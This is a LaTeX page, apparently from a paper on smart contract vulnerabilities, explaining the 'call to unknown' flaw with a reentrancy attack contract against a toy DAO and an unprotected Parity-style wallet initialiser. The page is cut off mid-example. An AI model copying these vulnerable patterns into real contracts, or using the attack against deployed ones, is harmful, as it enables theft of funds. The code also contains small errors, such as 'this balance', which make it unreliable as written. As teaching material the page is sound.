 \documentclass{llncs}
\begin{document}
\subsection{Call to unknown}
\begin{itemize}
\item \textbf{Explanation:} 

This refers to any use of call, delegatecall, send, or direct call to another contract that results in execution of an unknown, possibly malicious, fallback function (the anonymous function on every smart contract invoked as a catch all).

\item \textbf{Example:}
	\begin{itemize}
	\item The DAO Attack
	
	\begin{minipage}{.5\textwidth}  	
	{\scriptsize
	\begin{verbatim}
	
	contract SimpleDAO{
	    mapping (address => uint) public credit;
	    function donate(address to){credit[to] += msg.value;}
	    function queryCredit(address to) returns (uint){
	        return credit[to];
	    }
	    function withdraw(uint amount) {
	        if (credit[msg.sender]>= amount) {
	            msg.sender.call.value(amount)();
	            credit[msg.sender]-=amount;
	}}}
	
	contract MalloryAttack{
	    //attackerAddress is the attacker's address, should be substituted when test.
	    SimpleDAO public dao = SimpleDAO(attackerAddress); 
	    address owner;
	    function MalloryAttack(){owner = msg.sender;}
	    function(){dao.withdraw(dao.queryCredit(this));} 
	    //recursion here when call withdraw without credit decrease.
	    function getJackpot(){owner.send(this balance);}
	}
	
	\end{verbatim} }
	\end{minipage}

	
	\item The Parity Wallet Hack
	
	\begin{minipage}{.5\textwidth}  	
	{\scriptsize
	\begin{verbatim}
	
	//the toy callee library.	
	contract ToyWalletLibrary {
	    address owner;
	    //****************attack here***************//
	    function initWallet(address _owner) {
	        owner = _owner;
	    // ... more setup ...
	    }
	    

\end{verbatim}}
\end{minipage}
\end{itemize}
\end{itemize}
\end{document}
